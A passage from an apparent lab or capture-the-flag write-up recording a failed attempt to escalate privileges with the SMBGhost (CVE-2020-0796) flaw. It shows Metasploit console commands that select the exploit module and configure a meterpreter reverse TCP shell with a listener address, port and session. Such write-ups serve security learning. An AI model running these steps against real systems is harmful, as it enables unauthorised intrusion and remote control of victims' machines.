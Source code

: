 ```bash
meterpreter > 
```

##### CVE-2020-0796(Failed)

I tried to download and run the PoC binary, but it didn't work since the system deletes the binary.

I tried it on meterpreter shell as well, but couldn't succeed.

```bash
msf6 exploit(multi/handler) > search smbghost

Matching Modules
================

   #  Name                                          Disclosure Date  Rank     Check  Description
   -  ----                                          ---------------  ----     -----  -----------
   0  exploit/windows/local/cve_2020_0796_smbghost  2020-03-13       good     Yes    SMBv3 Compression Buffer Overflow
   1    \_ AKA: SMBGhost                            .                .        .      .
   2    \_ AKA: CoronaBlue                          .                .        .      .
   3  exploit/windows/smb/cve_2020_0796_smbghost    2020-03-13       average  Yes    SMBv3 Compression Buffer Overflow
   4    \_ AKA: SMBGhost                            .                .        .      .
   5    \_ AKA: CoronaBlue                          .                .        .      .


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/cve_2020_0796_smbghost                                                                      

msf6 exploit(multi/handler) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_0796_smbghost) > options

Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process,
                                         none)
   LHOST     192.168.45.131   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64

msf6 exploit(windows/local/cve_2020_0796_smbghost) > setg LHOST 10.10.14.3
LHOST => 10.10.14.3
msf6 exploit(windows/local/cve_2020_0796_smbghost) > setg LPORT 9002
LPORT => 9002
msf6 exploit(windows/local/cve_2020_0796_smbghost) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2020_0796_smbghost) > run

```